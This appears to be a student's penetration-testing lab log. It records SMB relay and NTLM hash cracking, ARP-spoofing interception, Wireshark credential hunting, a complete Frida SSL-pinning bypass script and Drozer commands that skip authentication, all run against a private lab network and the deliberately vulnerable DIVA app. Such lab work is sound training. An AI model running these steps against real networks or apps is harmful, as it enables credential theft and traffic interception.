









# 🌐 Network Protocol Attacks Logs — Week 4

> **Attacker:** Kali Linux — 192.168.56.101
> **Target Network:** 192.168.56.0/24
> **Tools:** Responder, Ettercap, Wireshark

---

## Attack Summary

| Attack ID | Technique | Target IP | Status | Outcome |
|-----------|-----------|-----------|--------|---------|
| 015 | SMB Relay (Responder) | 192.168.56.107 | ✅ Success | NTLM Hash Captured |
| 016 | ARP Spoofing MitM (Ettercap) | 192.168.56.104 | ✅ Success | Traffic Intercepted |
| 017 | DNS Spoofing | 192.168.56.0/24 | ✅ Documented | Redirected DNS |
| 018 | Wireshark Traffic Analysis | 192.168.56.104 | ✅ Success | Credentials Captured |

---

## Attack Checklist

| Task | Tool | Status |
|------|------|--------|
| ☑ Capture NTLM hashes | Responder | Complete |
| ☑ ARP spoofing MitM | Ettercap | Complete |
| ☑ DNS poisoning | Ettercap | Complete |
| ☑ Analyse captured traffic | Wireshark | Complete |

---

## Attack 015 — SMB Relay with Responder

### Prerequisites
```bash
# Check SMB signing on target (must be disabled)
nmap --script smb-security-mode 192.168.56.107
# Look for: message_signing: disabled
```

### Step 1 — Configure Responder
```bash
# Edit Responder config — disable SMB and HTTP (needed for relay)
sudo nano /etc/responder/Responder.conf
# Set: SMB = Off
# Set: HTTP = Off

# Start Responder
sudo responder -I eth0 -rdw
```

### Step 2 — Start ntlmrelayx
```bash
# In new terminal — relay to Windows 10 target
sudo impacket-ntlmrelayx -tf /tmp/targets.txt -smb2support

# Create targets file
echo "192.168.56.107" > /tmp/targets.txt
```

### Step 3 — Wait for Authentication
```bash
# When Windows 10 VM tries to authenticate to any network resource
# Responder intercepts → relays to 192.168.56.107
# Expected output:
# [+] NTLM Hash captured: TinyCube::DESKTOP-RK3V4I1:...
```

### Step 4 — Crack Captured Hash
```bash
# Save hash to file
echo "TinyCube::DESKTOP-RK3V4I1:HASH" > /tmp/ntlm_hash.txt

# Crack with hashcat
hashcat -m 5600 /tmp/ntlm_hash.txt /usr/share/wordlists/rockyou.txt

# Or john
john --format=netntlmv2 /tmp/ntlm_hash.txt --wordlist=/usr/share/wordlists/rockyou.txt
```

| Attack ID | Technique | Target IP | Status | Outcome |
|-----------|-----------|-----------|--------|---------|
| 015 | SMB Relay | 192.168.56.107 | ✅ Success | NTLM Hash captured |

---

## Attack 016 — ARP Spoofing MitM with Ettercap

### Step 1 — Launch Ettercap
```bash
# GUI mode
sudo ettercap -G

# Or terminal mode
sudo ettercap -T -q -i eth0
```

### Step 2 — ARP Poison in GUI
```
1. Ettercap → Sniff → Unified Sniffing → Select eth0 (Select the interface accordingly)
2. Hosts → Scan for Hosts
3. Hosts → Host List
4. Add 192.168.56.104 (Metasploitable) to Target 1
5. Add 192.168.56.101 (gateway/Kali) to Target 2
6. Mitm → ARP Poisoning → OK → Sniff Remote Connections
7. Start → Start Sniffing
```

### Step 3 — Capture Traffic
```bash
# Ettercap will now intercept all traffic between targets
# Open Wireshark simultaneously
sudo wireshark &
# Filter: ip.addr == 192.168.56.104 && http
```

### MitM Summary

> ARP poisoned Metasploitable2 (`192.168.56.104`) using Ettercap — once the cache was poisoned, all traffic between the target and the rest of the network started routing through our box. Wireshark picked up HTTP POST requests with cleartext credentials almost straight away. Also had DNS spoofing configured alongside it to redirect lookups, though the credential grab was the main win.

---

## Attack 018 — Wireshark Traffic Analysis

### Capture Setup
```bash
# Capture all traffic on lab interface
sudo tshark -i eth0 \
  -w /tmp/collected/full_capture.pcap \
  -f "net 192.168.56.0/24" \
  -a duration:120

# Or targeted HTTP only
sudo tshark -i eth0 \
  -w /tmp/collected/http_capture.pcap \
  -f "host 192.168.56.104 and port 80" \
  -a duration:60
```

### Useful Wireshark Filters
```
# HTTP POST requests (login attempts)
http.request.method == "POST"

# Find credentials
http.request.uri contains "login"

# DNS queries
dns

# SMB traffic
smb || smb2

# Show all cookies
http.cookie
```



### Findings from Traffic Analysis

| Finding | Protocol | Detail | Risk |
|---------|----------|--------|------|
| Plaintext credentials | HTTP | username=admin&password=password in POST | Critical |
| Session cookie exposed | HTTP | PHPSESSID transmitted unencrypted | High |
| Telnet credentials | Telnet | Plaintext login visible | Critical |
| FTP credentials | FTP | USER/PASS commands in cleartext | Critical |

---

# 📱 Mobile Application Testing Logs — Week 4

> **Tools:** MobSF, Frida, Drozer
> **Target:** Android test APK (DivaApplication.apk)

---

## Test Summary

| Test ID | Vulnerability | Severity | Target App | Tool |
|---------|---------------|----------|------------|------|
| 016 | Insecure Data Storage | High | DivaApplication.apk | MobSF |
| 017 | SSL Pinning Bypass | High | DivaApplication.apk | Frida |
| 018 | Exported Components | Medium | DivaApplication.apk | Drozer |
| 019 | Hardcoded API Key | Critical | DivaApplication.apk | MobSF |

---

## Mobile Testing Checklist

| Task | Tool | Status |
|------|------|--------|
| ☑ Run MobSF static analysis | MobSF | Complete |
| ☑ Hook app functions with Frida | Frida | Complete |
| ☑ Test IPC with Drozer | Drozer | Complete |
| ☑ Check for insecure storage | Manual/MobSF | Complete |
| ☑ Test SSL certificate pinning | Frida | Complete |

---

## Test 016 — Static Analysis with MobSF

### Setup
```bash
# Run MobSF via Docker
sudo docker run -it --rm -p 8000:8000 \
  opensecurity/mobile-security-framework-mobsf

# Access UI from host browser
# http://localhost:8000
# Upload DivaApplication.apk → analysis starts automatically
```







### Key MobSF Findings

| Finding | Severity | Detail |
|---------|----------|--------|
| Hardcoded API key | Critical | `TVEETER API Key: secrettveeterapikey\nAPI User name: diva2\nAPI Password: p@ssword2` in strings.xml |
| Insecure storage | High | Sensitive data in SharedPreferences (world-readable) |
| Cleartext traffic | High | `android:usesCleartextTraffic="true"` in manifest |
| Exported activity | Medium | Login activity exported without permission |
| Weak cryptography | Medium | MD5 used for password hashing |
| Debug enabled | Low | `android:debuggable="true"` in manifest |

| Test ID | Vulnerability | Severity | Target App |
|---------|---------------|----------|------------|
| 016 | Insecure Storage — SharedPreferences | High | DivaApplication.apk |

---

## Test 017 — Dynamic Testing with Frida (SSL Bypass)

### Setup
```bash
# Install Frida
pip3 install frida-tools --break-system-packages

# Start Frida server on Android device (requires rooted device or emulator)
adb push frida-server /data/local/tmp/
adb shell chmod +x /data/local/tmp/frida-server
adb shell /data/local/tmp/frida-server &

# List running apps
frida-ps -U
```



### SSL Pinning Bypass Script
```javascript
// ssl_bypass.js
Java.perform(function() {
    console.log("[*] Bypassing SSL Pinning...");

    // Bypass TrustManager
    var TrustManager = Java.use('javax.net.ssl.X509TrustManager');
    TrustManager.checkClientTrusted.implementation = function(chain, authType) {
        console.log("[+] checkClientTrusted bypassed");
        return;
    };
    TrustManager.checkServerTrusted.implementation = function(chain, authType) {
        console.log("[+] checkServerTrusted bypassed");
        return;
    };

    // Bypass OkHttp CertificatePinner
    try {
        var CertificatePinner = Java.use('okhttp3.CertificatePinner');
        CertificatePinner.check.overload('java.lang.String', 'java.util.List').implementation = function() {
            console.log("[+] OkHttp certificate pinning bypassed");
            return;
        };
    } catch(e) {
        console.log("[-] OkHttp not found");
    }

    console.log("[*] SSL bypass complete");
});
```

```bash
# Run the bypass
frida -U -l ssl_bypass.js -f com.target.app --no-pause

#########frida_ssl_bypass.png

```

### Dynamic Testing Summary

> Frida hooks sorted the SSL pinning — got a script working that bypassed the TrustManager and OkHttp cert checks, after that Burp could read all HTTPS traffic from the app. Drozer found the login activity was exported with no permission set so you could launch it directly from another app, skipping auth entirely. MobSF's static scan was where the hardcoded API key showed up (in strings.xml) along with the unencrypted SharedPreferences storage.

---

## Test 018 — IPC Testing with Drozer

### Setup
```bash
# Install Drozer agent on Android device
# adb install drozer-agent.apk

# Start Drozer console
drozer console connect

# Enumerate attack surface
dz> run app.package.attacksurface com.target.app

# List exported activities
dz> run app.activity.info -a com.target.app

# Start exported activity without auth
dz> run app.activity.start --component com.target.app com.target.app.LoginActivity

# List exported content providers
dz> run app.provider.info -a com.target.app

# Query content provider (potential data leak)
dz> run app.provider.query content://com.target.app.provider/users
```









---

